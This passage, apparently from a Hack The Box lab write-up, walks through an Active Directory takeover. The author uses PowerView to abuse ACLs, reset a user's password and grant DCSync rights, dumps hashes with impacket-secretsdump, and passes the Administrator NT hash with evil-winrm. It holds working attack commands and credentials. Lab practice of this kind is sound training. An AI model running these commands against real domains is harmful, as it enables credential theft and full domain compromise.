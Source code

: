 Then you can click on windows abuse to learn how to abuse it

Most form of abuse will require powerview so we can transfer powerview.ps1 like how we transfered sharphound just now

I tried to do set the domain object in order to give svc-alfresco GenericALL writes to cyril
```
$SecPassword = ConvertTo-SecureString 's3cure' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB\svc-alfresco', $SecPassword)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity svc-alfresco -Rights All
```
then after that once i got cyril's password reseted 
```
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity cyril -AccountPassword $UserPassword -Credential $Cred
```

i attempt to grant cyril permission to do DCSync using PowerView again
```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB\cyril', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync
```
and then i do a DCSync from my linux attack host 
```
impacket-secretsdump HTB/cyril:'Password123!'@10.10.10.161
```
i get a lot of hashes
![](../Assets/Screenshot%202025-06-24%20at%2012.23.23%20AM.png)
So i take the Administrator's NT hash `32693b11e6aa90eb43d32c72a07ceea6`
and then i pass the hash through evil-winrm
```
evil-winrm -i 10.10.10.161 -u Administrator -H '32693b11e6aa90eb43d32c72a07ceea6'
```